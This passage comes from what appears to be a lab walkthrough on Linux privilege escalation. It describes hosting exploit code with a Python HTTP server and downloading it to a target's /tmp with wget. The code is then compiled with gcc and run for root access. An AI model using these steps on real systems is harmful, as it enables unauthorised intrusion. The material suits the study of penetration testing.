 
- In a new terminal set up a python server inside the folder that you downloaded the exploit code to:

`python3 -m http.server <PORT>` for Python3 or `python -m SimpleHTTPServer <PORT>` for Python

![simple http server](../../images/screenshots/linux-privilege-escalation/task5/python-simple-server.png)


- Next we need to download our exploit code to the target machine, but first we need to know our tun0 IP. Either connect `to 10.10.10.10` in your browser or use `ifconfig tun0` in a new terminal. The /tmp directory in Linux is used for Temporary files and all users can read/write to /tmp. Navigate here on the target machine and download the file using:

`wget http://<tun0-IP>:<SimpleHTTP-Server-PORT>/<EXPLOIT-FILENAME>`

![download from simple server](../../images/screenshots/linux-privilege-escalation/task5/wget-download.png)


- The file is now on the target machine! But before we can run it we need to compile it using the gcc tool:

`gcc <FILE-TO-COMPILE> -o <OUTPUT-FILENAME>`

![compile the file](../../images/screenshots/linux-privilege-escalation/task5/gcc-compiled.png)


-  Now that the exploit code file is compiled, we can run it using `./<FILENAME>` and now we should have access to root privileges, confirm with `whoami`.
